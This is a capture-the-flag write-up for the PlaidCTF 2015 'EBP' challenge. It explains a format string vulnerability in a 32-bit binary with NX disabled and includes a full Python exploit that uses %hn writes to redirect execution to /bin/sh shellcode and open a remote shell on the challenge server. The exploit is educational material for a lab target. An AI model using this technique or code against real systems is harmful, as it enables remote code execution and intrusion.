 ```yaml
---
layout: post
title: "PlaidCTF CTF 2015 - EBP Writeup"
date: 2015-04-20 22:40:13 +0430
comments: true
categories: ctf plaidctf fmt pwnable
---
```


**PlaidCTF 2015 EBP Writeup**  
**Point = 160**  
**Category = Pwnable**  

Unfortunately the CTF time for our team was completely under heavy pressure. but here is one i solved in my free time.

> Category: Pwnable Points: 160 Solves: 157 Description:
>    nc 52.6.64.173 4545
>    Download: %p%o%o%p.


We are given an ELF file:

```
$ file ebp_a96f7231ab81e1b0d7fe24d660def25a.elf 
ebp_a96f7231ab81e1b0d7fe24d660def25a.elf: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4e8094f9986968cd856db5093810badbb0749fde, not stripped
```

first attempt peresented us that it's a Format String Vulenrability.

```
$ ./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf 
%p%p%p%p%p
0xa0x10xf76c40000xffec67180x804852c
```

We noticed that the binary is provided with disabled NX.
<!-- more -->
```
checksec.sh --file ebp_a96f7231ab81e1b0d7fe24d660def25a.elf 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ebp_a96f7231ab81e1b0d7fe24d660def25a.elf
```
So it was pretty simple to run our shellcode and execute proper command to read the flag.

It was the time to see the binary. IDA showed us that the buggy function is `make_response` since no FMT was used.

```
int make_response()
{
  return snprintf(response, 0x400u, buf);
}
```

but `response` and `buf` are on **BSS** and we should change execution flow to this address `0x0804A480`.

By dumping stack on executing `make_response` we had these values:

```
Breakpoint 1, 0x08048503 in make_response ()
gdb-peda$ x/64wx $esp
0xffffcc30:     0xf7fadc20      0x0804a080      0x000003ff      0x0000000a
0xffffcc40:     0x00000001      0xf7fad000      0xffffcc68      0x0804852c
0xffffcc50:     0xffffcc88      0xf7ff04b0      0xffffccb4      0xf7fad000
0xffffcc60:     0x00000000      0x00000000      0xffffcc88      0x08048557
0xffffcc70:     0x0804a080      0x00000400      0xf7fadc20      0xf7fad000
0xffffcc80:     0x08048580      0x00000000      0x00000000      0xf7e1da83
0xffffcc90:     0x00000001      0xffffcd24      0xffffcd2c      0xf7feac9a
0xffffcca0:     0x00000001      0xffffcd24      0xffffccc4      0x0804a01c
0xffffccb0:     0x08048278      0xf7fad000      0x00000000      0x00000000
0xffffccc0:     0x00000000      0xb9b964cc      0x8594c0dc      0x00000000
0xffffccd0:     0x00000000      0x00000000      0x00000001      0x08048400
0xffffcce0:     0x00000000      0xf7ff04b0      0xf7e1d999      0xf7ffd000
0xffffccf0:     0x00000001      0x08048400      0x00000000      0x08048421
0xffffcd00:     0x08048547      0x00000001      0xffffcd24      0x08048580
0xffffcd10:     0x080485f0      0xf7feb130      0xffffcd1c      0x0000001c
0xffffcd20:     0x00000001      0xffffcf57      0x00000000      0xffffcf96
```

You may notice that to overwriting a value via FMT vuln we should provide an address to `%n`. but we had just BSS variables so we should make this environment manually. As name of the challenge suggets we can use saved frame pointer since it has address of this frame. The scenario is pretty simple:

1. leak an stack address to find location of RET address of current function `make_response`.
2. overwrite RET address in place of saved frame pointer (which ebp points to it).
3. again using a format string overwrite RET with `response` address. 

You should notice that we should write 2 least significant byte of ebp address location (%hhn).

TL;DR 

This is what i used as exploiting this challenge:

```
import socket
import struct
import telnetlib

response = 0x0804a480

offset = 4 # saved frame pointer offset 

shellcode = (  # /bin/sh shellcode at http://shell-storm.org/shellcode/files/shellcode-236.php
	"\x6a\x0b\x58\x99\x52\x68\x2f\x2f"
        "\x73\x68\x68\x2f\x62\x69\x6e\x54"
        "\x5b\x52\x53\x54\x59\x0f\x34"
)

s = socket.create_connection(("52.6.64.173", 4545 ))
#s = socket.create_connection(("127.0.0.1", 8080 ))
s.send("%4$p\n")
addr = int(s.recv(1024), 16)
print "[+] Leaked Address: ", hex(addr)
addr1 = (addr - 0x1c) & 0xffff
print "[+] 2Byte Significant Byte to write : ", hex(addr1) 

s.send("%"+str(addr1)+"x%"+str(offset)+"$hn\n")
s.recv(4096)

s.send(shellcode+"%"+str((response & 0xffff)-len(shellcode))+"x%"+str(12)+"$hn\n")
print "[+] Here you go"
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

running the exploit we have: 

```
$ python 5.py 
[+] Leaked Address:  0xffbea7c8
[+] 2Byte Significant Byte to write :  0xa7ac
[+] Here you go
cat /home/problem/flag.txt
who_needs_stack_control_anyway?
```

So we've got 160 point.

@HAMIDx9
